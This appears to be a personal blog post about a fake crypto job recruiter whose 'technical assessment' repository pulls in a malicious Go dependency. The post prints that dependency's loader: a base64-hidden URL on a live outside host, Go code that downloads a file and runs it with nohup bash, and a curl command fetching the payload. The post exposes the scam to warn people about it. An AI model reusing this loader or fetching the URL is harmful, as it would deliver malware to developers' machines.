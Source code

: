 ```yaml
---
title: "Having Fun With a Scamming Crypto Job"
date: 2025-04-09T00:17:16+07:00
draft: false
toc: true
tags:
- crypto
- scam
- fake-job
categories:
---
```


I'm going to cover what happened and the technical details of a crypto job scam
that I've avoided. Let's hope that it can be both entertaining and informative.

It's my second time encoutering this kind of scam. In the first time, I just
ignored it as the sign is too obvious: a non-fitting job (frontend heavy job for
a backend guy) where the recruiter is "impressed with my technical skills" and
think that I'm "an exellent fit". For this second time, I got fooled at first as
it is too good, and after I realized it's too good to be true and likely a scam,
instead of stopping early, I just got... more patient and curious about what's
behind. 

## The Conversation

It started with a message from a seemingly real recruiter from a prestige
company. I overjumped with joy as it's been a long time since the last ocassion
I'm reached out by a recruiter.

![](../images/crypto-job-scam-1.png)

The recruiter asked about a specific work in my resume. I felt that it's weird,
but tried to answer it at the best of my ability.

![](../images/crypto-job-scam-2.png)

However, things started getting weirder when I wanted more specific information
about the role and the team, but got a generic response. "One-hour technical
assessment" is rare in this employer's market as well. I decided to dig the
recruiter's LinkedIn profile and found that he/she isn't connected to any
employee in the company. The company itself has a career portal that wasn't
showing any available role that is fully remote nor for Vietnamese candidates.

![](../images/crypto-job-scam-3.png)

By now, I realized that it's highly a scam, but got curious about what's next,
so I stayed.

![](../images/crypto-job-scam-4.png)

I guessed that it'll involve downloading and running code, and I was right.

![](../images/crypto-job-scam-5.png)

## Code Analysis

Just poking around the files shouldn't cause any problem, but if you're
paranoid, you can use a lightweight sandbox like `firejail` to limit filesytem
access and network access.

```shell
firejail --net=none --private bash
```

`unzip`ing the compressed file should give us a regular code repository
[^code-main]. The dependencies also look normal at the first glance:

```
module unirouter

go 1.24.1

toolchain go1.24.2

require (
        github.com/TedCollin/uniroute/v2 v2.1.3
        github.com/ethereum/go-ethereum v1.14.11
        github.com/joho/godotenv v1.5.1
)

...
```

I double checked the primary dependencies, and everything is normal except for
`github.com/TedCollin/uniroute/v2` [^code-downloader]:

![](../images/crypto-job-scam-6.png)

The code in `uniroute.go` did confirm that there is something fishy going on:

```go
package uniroute

import "encoding/base64"

var (
        checksum = "aHR0cHM6Ly9kb3dubG9hZC5kYXRhdGFibGV0ZW1wbGF0ZS54eXovYWNjb3VudC9yZWdpc3Rlci9pZD04MTE4NTU1OTAyMDYxODk5JnNlY3JldD1Rd0xvT1pTRGFrRmg="
)

func GetUniRoute() {
        chsum, _ := base64.StdEncoding.DecodeString(checksum)
        fset(string(chsum))
}
```

Decoding `checksum` gives us:

```
https://download.datatabletemplate.xyz/account/register/id=8118555902061899&secret=QwLoOZSDakFh
```

There are different implementations of `fset` for each platform (Linux, Windows,
and MacOS), but the gist of it is to download the link above as a binary file
and execute it.

```go
func fset(data_path string) {
	tmpDir := os.TempDir()
	targetPath := filepath.Join(tmpDir, "init")

	// Create the file to write
	file, err := os.Create(targetPath)
	...

	// Perform the GET request
	// Create HTTP request
	req, err := http.NewRequest("GET", data_path, nil)
    ...

	// Set OS-specific header
	req.Header.Set("User-Agent", "lnux")

	// Perform the GET request
	client := &http.Client{}
	resp, err := client.Do(req)
	...

	// Write response to file
	_, err = io.Copy(file, resp.Body)
	...

	cmd := exec.Command("nohup", "bash", targetPath, "&")
	cmd.SysProcAttr = &syscall.SysProcAttr{
		Setsid: true,
	}

	cmd.Stderr = nil
	cmd.Stdin = nil
	cmd.Stdout = nil
	cmd.Start()
}
```

I tried downloading the binary file, but couldn't as there were errors with my
TLS (?).

```shell
curl -H 'User-Agent: lnux' 'https://download.datatabletemplate.xyz/account/register/id=8118555902061899&secret=QwLoOZSDakFh' -o binary
# curl: (35) TLS connect error: error:80000002:system library::No such file or directory
```

I decided not pushing it further. My guess is that the binary is a "wallet
drainer", a mallicious actor that read your sensitive data on the machine and
sent it to the scammer.

## Conclusion

By now, I hope you feel obvious that "if it's too good to be true, then it's
probably is (a scam)". But I can imagine why people fall for this: the
excitement of having a lucrative job offer blinds us from being rational.
Technical-wise, we should check the code we are going to run, including the
dependencies. Non-technical-wise, we should check:

- Nationality required: it's a red flag if the company is not hiring worldwide
  nor people from your country, and there is still a job
- Job's specific details: it's a red flag if the recruiter refuse to elaborate
  on the work and the technical stack and the team

Scamming is common in crypto world [^crypto-job-scams-article] and you can never
be too careful.

[^code-main]: https://github.com/thanhnguyen2187/unirouter-compromised
[^code-downloader]: I [backed it
    up](https://github.com/thanhnguyen2187/uniroute-compromised) from the
    [original repository](https://github.com/TedCollin/uniroute/) (likely to be
    taken down after a while). 
[^crypto-job-scams-article]: https://cointelegraph.com/learn/articles/crypto-job-scams

